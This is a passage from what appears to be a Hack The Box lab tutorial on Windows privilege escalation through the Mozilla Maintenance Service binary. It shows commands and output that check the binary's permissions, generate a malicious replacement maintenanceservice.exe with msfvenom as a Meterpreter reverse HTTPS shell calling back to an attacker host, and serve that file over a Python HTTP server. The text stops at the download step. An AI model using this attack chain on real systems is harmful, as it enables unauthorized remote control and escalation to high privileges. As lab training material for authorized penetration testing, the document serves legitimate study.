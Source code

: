 `icacls` confirms that we only have read and execute permissions on this binary based on the line `BUILTIN\Users:(I)(RX)` in the command output.

Kernel Exploits

```
C:\htb> icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

```

### Generating Malicious Binary

Let's generate a malicious `maintenanceservice.exe` binary that can be used to obtain a Meterpreter reverse shell connection from our target.

Kernel Exploits

```
doshim@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 645 bytes
Final size of exe file: 7168 bytes

```

### Hosting the Malicious Binary

We can download it to the target using cURL after starting a Python HTTP server on our attack host like in the `User Account Control` section previously. We can also use wget from the target.

Kernel Exploits

```
doshim@htb[/htb]$ $ python3 -m http.server 8080Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.43.13 - - [01/Mar/2022 18:17:26] "GET /maintenanceservice.exe HTTP/1.1" 200 -
10.129.43.13 - - [01/Mar/2022 18:17:45] "GET /maintenanceservice.exe HTTP/1.1" 200 -

```

### Downloading the Malicious Binary

